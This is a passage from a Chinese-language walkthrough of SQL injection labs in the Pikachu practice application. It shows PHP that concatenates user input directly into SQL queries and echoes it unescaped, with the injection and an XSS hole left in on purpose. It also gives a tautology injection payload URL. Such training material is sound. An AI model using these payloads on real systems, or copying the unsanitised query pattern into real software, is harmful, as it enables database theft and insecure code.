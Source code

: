```php
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```

**漏洞利用**

构造 payload

`http://<IP address!!!>/pikachu/vul/sqli/sqli_str.php?name=1' or '1' ='1&submit=%E6%9F%A5%E8%AF%A2`

![image](../../../assets/img/安全/实验/pikachu/28.png)

### 搜索型注入
**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配，需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下：<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username：{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
```